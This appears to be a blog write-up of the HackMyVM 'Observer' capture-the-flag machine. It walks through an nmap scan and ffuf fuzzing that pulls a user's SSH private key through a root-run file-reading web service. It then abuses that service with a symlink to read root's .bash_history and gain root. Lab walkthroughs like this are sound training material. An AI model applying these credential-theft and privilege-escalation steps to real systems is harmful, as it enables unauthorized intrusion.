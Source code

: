 ```yaml
---
categories: [HackMyVM]
tags: [Fuzzing, PrivEsc, Soft_Link]
media_subpath: /Vulnhub-Files/img/
image:
  path: Observer/Untitled.png
  alt: HackMyVM Machine 📷
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#Fuzzing</kbd>&nbsp;&nbsp;<kbd>#Soft_Link</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Observer/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.83   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:42 IST
Nmap scan report for 10.0.2.83
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 06:c9:a8:8a:1c:fd:9b:10:8f:cf:0b:1f:04:46:aa:07 (ECDSA)
|_  256 34:85:c5:fd:7b:26:c3:8b:68:a2:9f:4c:5c:66:5e:18 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:13:06 GMT
|     Content-Length: 105
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/nice ports,/Trinity.txt.bak NOT EXIST 
|     <!-- sbOJiFQGZsnwTKSmVoiGLOpbUOpEdKHMV -->
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|     <!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|_    <!-- DaFpLSjFbcXoEFfRsWxPLDnJObCsNVHMV -->
1 service unrecognized despite returning data.
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 80 →

![Untitled](Observer/Untitled%202.png)

It can reads the content from `home` directory means inside the home directory I have to find the `username` and the file name to read so I used `ffuf Tool` for username bruteforce →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://10.0.2.83:3333/FUZZ/.ssh/id_rsa' -fw 8 -fl 4 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.83:3333/FUZZ/.ssh/id_rsa
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response status: 404,500,401
 :: Filter           : Response words: 8
 :: Filter           : Response lines: 4
________________________________________________

cgi-bin/                [Status: 301, Size: 55, Words: 3, Lines: 3, Duration: 14ms]
jan                     [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 10ms]
:: Progress: [20476/20476] :: Job [1/1] :: 5000 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
{: .nolineno}

I got the username as `jan` and I used the file name as `.ssh/id_rsa` , That gives me the private keys of that user and I can login now →

![Untitled](Observer/Untitled%203.png)

Now lets Login →

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ssh -i id_rsa jan@10.0.2.83
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 27 08:53:33 2023 from 10.0.2.77
jan@observer:~$ whoami
jan
jan@observer:~$ id
uid=1000(jan) gid=1000(jan) grupos=1000(jan),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
jan@observer:~$ hostname
observer
jan@observer:~$
```
{: .nolineno}

lets see the sudoer file that can lead me to root →

```bash
jan@observer:~$ sudo -l
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
jan@observer:~$
```
{: .nolineno}

I tried it and observed that the system processes are running `/opt/observer` as we can see from its web server part through root user →

![Untitled](Observer/Untitled%204.png)

As this is ran through root user so I cna try to access the root files through the web application so for that I need to create a soft link that will redirect to the root directory .

```bash
jan@observer:~$ ln -s /root root
jan@observer:~$ ls -al
total 40
drwx------ 4 jan  jan  4096 nov 27 09:29 .
drwxr-xr-x 3 root root 4096 ago 21 20:19 ..
-rw------- 1 jan  jan   711 nov 27 09:21 .bash_history
-rw-r--r-- 1 jan  jan   220 ago 21 20:19 .bash_logout
-rw-r--r-- 1 jan  jan  3526 ago 21 20:19 .bashrc
drwxr-xr-x 3 jan  jan  4096 ago 21 20:21 .local
-rw-r--r-- 1 jan  jan   807 ago 21 20:19 .profile
lrwxrwxrwx 1 jan  jan     5 nov 27 09:29 root -> /root
drwx------ 2 jan  jan  4096 ago 21 20:25 .ssh
-rw------- 1 jan  jan    24 ago 21 20:21 user.txt
-rw------- 1 jan  jan    54 ago 21 20:21 .Xauthority
jan@observer:~$
jan@observer:~$ cd root
-bash: cd: root: Permiso denegado
jan@observer:~$
```
{: .nolineno}

Now Lets access `.bash_history` file common known file in a user directory →

![Untitled](Observer/Untitled%205.png)

I got the root password from here so lets Login and be a root user →

```bash
jan@observer:~$ su root
Contraseña: 
su: Fallo de autenticación
jan@observer:~$ su root
Contraseña: 
root@observer:/home/jan# cd ~
root@observer:~# whoami
root
root@observer:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@observer:~# hostname
observer
root@observer:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:48:8b:ad brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.83/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 331sec preferred_lft 331sec
    inet6 fe80::a00:27ff:fe48:8bad/64 scope link 
       valid_lft forever preferred_lft forever
root@observer:~# cat root.txt
FLAG-------FLAG-------FLAG
root@observer:~# ls -al
total 52
drwx------  5 root root 4096 nov 27 09:29 .
drwxr-xr-x 18 root root 4096 ago 21 20:17 ..
-rw-------  1 root root  668 nov 27 09:21 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 21 20:23 .cache
-rw-------  1 root root   55 nov 27 09:29 .lesshst
drwxr-xr-x  3 root root 4096 ago 21 20:23 .local
-rw-r--r--  1 root root  913 ago 21 20:23 observer.go
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   24 ago 21 20:24 root.txt
-rw-r--r--  1 root root   66 ago 21 20:23 .selected_editor
drwx------  2 root root 4096 ago 21 20:15 .ssh
-rw-r--r--  1 root root  161 ago 21 20:22 .wget-hsts
root@observer:~#
```
{: .nolineno}

Now am Root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }